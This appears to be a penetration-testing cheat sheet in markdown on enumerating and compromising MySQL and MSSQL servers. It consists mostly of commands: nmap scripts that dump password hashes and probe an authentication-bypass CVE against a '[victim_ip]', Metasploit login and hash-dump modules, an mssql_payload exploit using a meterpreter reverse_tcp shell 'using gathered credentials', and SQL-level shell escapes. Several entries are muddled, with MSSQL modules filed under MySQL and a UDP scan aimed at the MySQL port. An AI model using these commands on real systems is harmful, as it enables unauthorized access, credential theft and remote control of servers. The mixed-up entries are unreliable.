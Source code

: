 ## MySQL enumeration
- MySQL tools
```
sudo apt install default-mysql-client
```
- connect to mysql
```
mysql -h [IP] -u [username] -p 
```

- sql nmap scan 
  - nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql- variables,mysql-vuln-cve2012-2122 [victim_ip] -p 3306
  - nmap -sV -Pn -vv -script=mysql* [victim_ip] -p 3306
  - nmap -sU --script=ms-sql-info [vicrim_ip] -p 3306

- sql metasploit enumeration module
```
auxiliary/admin/mysql/mysql_sql
```

- sql metasploit scan
```
  msf > use auxiliary/scanner/mssql/mssql_ping
  msf> use auxiliary/scanner/mssql/mssql_login
  msf> use exploit/windows/mssql/mssql_payload
  set PAYLOAD windows/meterpreter/reverse_tcp

Gain shell using gathered credentials
  msf > use exploit/windows/mssql/mssql_payload
  msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

- mysql metasploit sql schema dump module
```
mysql_schemadump
```

- mysql metasploit sql table and columns dump module
```
auxiliary/scanner/mysql/mysql_hashdump
```

- mysql commands
```
mysql> select do_system('id');
mysql> \! sh
```
- mssql server config file
```
cat freetds.conf

host = $ip
port = 1433
tds version = 8.0
user=sa

root@kali:~/dirsearch# sqsh -S someserver -U sa -P PASS -D DB_NAME
```

